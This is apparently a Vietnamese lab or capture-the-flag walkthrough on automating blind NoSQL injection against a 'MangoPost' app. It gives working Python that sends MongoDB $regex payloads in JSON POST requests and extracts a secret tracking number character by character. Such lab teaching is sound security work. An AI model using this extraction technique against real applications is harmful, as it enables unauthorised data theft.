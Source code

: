 # 6. Tự động hóa khai thác dữ liệu dạng Blind Data Extraction với MangoPost

1. **Kịch bản**:
   - Việc trích xuất dữ liệu thủ công qua phương pháp Blind Injection có thể rất phức tạp và tốn thời gian, vì vậy cần tự động hóa.
   - Ở đây, chúng ta sẽ thực hiện khai thác tự động để tìm ra `trackingNum` của gói hàng thuộc về **bmdyy**, mã bưu kiện bắt đầu bằng `HTB{` và bao gồm 32 ký tự từ `0-9` và `a-f`.

2. **Xây dựng hàm `oracle`**:
   - Đầu tiên, tạo một hàm `oracle()` để gửi yêu cầu `POST` và kiểm tra xem kết quả có chứa chuỗi `"bmdyy"` hay không.
   - Nếu kết quả có chứa `"bmdyy"`, thì truy vấn của chúng ta đã khớp với mục tiêu cần tìm.
   - Code mẫu:
     ```python
     import requests
     import json

     # Oracle function to check if the query matches
     def oracle(t):
         r = requests.post(
             "http://127.0.0.1/index.php",
             headers={"Content-Type": "application/json"},
             data=json.dumps({"trackingNum": t})
         )
         return "bmdyy" in r.text
     ```

3. **Kiểm tra hàm `oracle`**:
   - Xác minh hàm `oracle` hoạt động đúng bằng cách sử dụng các lệnh `assert`.
   - Ví dụ:
     ```python
     assert (oracle("X") == False)  # Kiểm tra với mã tracking không tồn tại
     assert (oracle({"$regex": "^HTB{.*"}) == True)  # Kiểm tra với mã có mẫu khớp ban đầu
     ```

4. **Tự động dò tìm `trackingNum`**:
   - Do `trackingNum` có định dạng `HTB{[0-9a-f]{32}}`, ta chỉ cần lặp qua các ký tự trong phạm vi này.
   - Code mẫu để dò từng ký tự trong mã:
     ```python
     trackingNum = "HTB{"  # Bắt đầu với chuỗi 'HTB{'
     for _ in range(32):  # Lặp lại cho 32 ký tự
         for c in "0123456789abcdef":  # Dò từng ký tự trong phạm vi [0-9a-f]
             if oracle({"$regex": "^" + trackingNum + c}):  # Kiểm tra xem có khớp không
                 trackingNum += c  # Nếu khớp, thêm ký tự vào chuỗi
                 break  # Thoát vòng lặp sau khi tìm thấy ký tự
     trackingNum += "}"  # Thêm dấu '}' vào cuối
     ```

5. **Xác nhận kết quả**:
   - Sau khi hoàn thành chuỗi `trackingNum`, xác nhận tính chính xác bằng cách gửi yêu cầu kiểm tra.
   - In ra kết quả cuối cùng:
     ```python
     assert (oracle(trackingNum) == True)  # Xác nhận mã tracking chính xác
     print("Tracking Number: " + trackingNum)
     ```
